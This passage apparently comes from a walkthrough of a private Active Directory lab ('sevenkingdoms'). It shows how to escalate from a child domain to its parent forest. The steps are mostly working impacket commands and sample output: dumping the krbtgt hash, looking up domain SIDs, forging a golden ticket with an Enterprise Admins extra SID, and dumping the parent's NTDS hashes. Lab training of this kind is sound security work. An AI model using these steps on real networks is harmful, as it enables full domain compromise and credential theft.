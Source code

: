 ### RaiseMeUp - Escalate with impacket raiseChild
To escalate from child to parent the simplest way is with impacket raiseChild.py script, this will do all the work for us.
`raiseChild.py north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!' `

### Golden ticket + ExtraSid
- First dump the krbtgt of the domain we own
```
# dump child ntds and get krbtgt NT hash
secretsdump -just-dc-user north/krbtgt \ 
 north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!'@192.168.56.11

...
krbtgt:502:aa3b435b51404eeaad3b435b51404ee:13354bc6e1b48fff8d66a2090e909b27:::
..
```

- Now get the child and parent domain SID
```
# dump child domain SID 
lookupsid.py  -domain-sids north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!'@192.168.56.11 0

[*] Domain SID is: S-1-5-21-638448100-4005671799-261795860

# dump parent domain SID 
lookupsid.py  -domain-sids north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!'@192.168.56.10 0

[*] Domain SID is: S-1-5-21-1409754491-4246775990-3914137275
```

- And now create the golden ticket : we add “-519” at the end of the extra-sid (means enterprise admin) 
```
ticketer.py -nthash 13354bc6e1b48fff8d66a2090e909b27 \
 -domain-sid S-1-5-21-638448100-4005671799-261795860 \
 -domain north.sevenkingdoms.local \
 -extra-sid S-1-5-21-1409754491-4246775990-3914137275-519 \
 goldenuser
```

- And we use the ticket to dump the parent domain NTDS
```
secretsdump -k -no-pass -just-dc-ntlm \
 north.sevenkingdoms.local/goldenuser@kingslanding.sevenkingdoms.local
```

### Trust ticket - forge inter-realm TGT
Another way to escalate from child to parent is by extracting the trust key and use it to create our trust ticket (a very good explanation and examples with Mimikatz can be found here : https://adsecurity.org/?p=1588)
